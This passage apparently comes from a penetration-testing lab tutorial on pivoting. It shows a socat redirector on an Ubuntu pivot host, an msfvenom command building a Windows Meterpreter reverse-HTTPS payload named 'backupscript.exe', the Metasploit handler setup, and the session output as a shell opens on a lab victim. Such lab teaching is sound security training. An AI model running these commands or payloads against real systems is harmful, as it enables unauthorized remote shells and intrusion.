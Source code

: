 Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start socat on the Ubuntu server.

### Starting Socat Listener
```
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
Socat will listen on localhost on port 8080 and forward all the traffic to port 80 on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.


### Starting MSF Console
```
sudo msfconsole
```

### Configuring & Starting the multi/handler
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```
### Establishing the Meterpreter Session
```
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
